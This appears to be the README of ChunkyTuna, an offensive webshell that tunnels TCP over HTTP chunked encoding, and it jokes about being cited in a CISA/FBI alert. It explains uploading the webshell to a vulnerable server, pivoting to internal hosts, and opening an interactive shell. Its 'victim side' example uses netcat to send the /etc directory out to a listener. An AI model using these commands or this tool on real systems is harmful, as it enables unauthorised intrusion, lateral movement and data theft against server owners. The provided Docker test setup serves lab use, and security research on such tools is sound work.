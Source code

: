 **AS SEEN ON THE LATEST [CISA/FBI report](https://us-cert.cisa.gov/ncas/alerts/aa20-259a)!!!11!1!** 
...seems like Pioneer Kittens like Chunky Tuna... 

# ChunkyTuna

An evolved webshell user 'Chunked transfer encoding' HTTP providing:

 * Tunneling of TCP streams over HTTP
 * Interactive webshell with no reverse connections

For details see [Secarma's blog](https://blog.secarma.co.uk/labs/chunkytuna-a-web-shell-evolved).

Inspired by [Tunna](https://github.com/SECFORCE/Tunna/).

Modalities:

 *  Server connects to target directly ("Connect")
 *  Server listens for connections from target ("Listen")
 *  Server executes commands locally ("eXecute")

## Requirements:

 * A vulnerable webserver with file upload (JSP, PHP or ASPX)
 * Python > 3.x

For testing:

 * Docker or Windows Server with IIS

# Usage

**IMPORTANT** Set a password so your webshell can only be used by you:

 1. Edit the python client `chunkytuna.py`, search for the first line starting with `PASSWORD`, and set a new password 
 2. Edit the webshell, search for the line containing `X-Pwd` and set the same password you set in the python client

Then, upload the webshell on the vulnerable server.

## Connect mode

Mode 'C': webshell *connects* to the target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:12345 -t $TARGET:$TARGETPORT C
Where:

 * `$TARGET` and `$TARGETPORT` are the system in the same network as the webserver, e.g. 192.168.1.42:80
 * `$WEBSERVER` and `$WEBPORT` are self-explanatory
 * `$PATH_TO_WEBSHELL` is the path to the uploaded file e.g. `/webapps/foo/bar/chunkytuyna.jsp`
 * The `C` stands for connect

Then connect to `localhost:12345` with e.g. a web browser, ssh client, etc; the connection will be encapsulated over HTTP and sent to `$TARGETPORT` on $TARGET`.

[Demo](https://youtu.be/gV3TIKi_ewg)

## Listening mode (for exfil etc.)

Mode 'L': webshell *listens* for connections from a target:

	./chunkytuna.py http://$WEBSERVER:$WEBPORT/$PATH_TO_WEBSHELL -r 127.0.0.1:1234 -t 0.0.0.0:12345 L
 
Where:

 * `0.0.0.0:12345` is the port **on the remote web server**
 
Requirement:

 * The "internal" IP address of the webserver

Then:

 * Open a listener on port `1234`
 * Have your victim connect to port 12345 of the webserver (that is the internal IP)

Example:

 * Listen with:

	    mkdir -p exfil ; nc -lnvp 1234 | tar xf - -C exfil

 * On the victim side run:

	    tar cf - /etc | nc $WEBSERVER_INTERNAL_IP 12345

[Demo](https://youtu.be/5Q_b5VU04lk)



## Execution of commands

Mode 'X': run commands on the webserver:

	./chunkytuna.py http://$WEBSERVER:WEBPORT/$PATH_TO_WEBSHELL X -r 127.0.0.1:12345 -t /bin/sh

Then connect to `localhost:12345` and enjoy a shell :)

[Demo](https://youtu.be/7iVEV6pepR8)


# Miscellanea

## Docker stuff

To test ChunkyTuna locally, use the Docker containers provided in each directory: `asp/Docker`, `jsp/Docker`, `php/Docker`. There's a convenience script called `build-and-run-docker.sh` that sets up the environment for you. 

To find the IP of each container use `demo/get-container-ip.sh` followed by the name of the container (e.g. `target`, `listener-jsp`, `listener-php` etc.).

To log on a Docker container to perform e.g. emergency maintenance or run netcat:

    docker exec -it listener-jsp /bin/bash

## Testing

For unit testing, run:

    python3 -m unittest

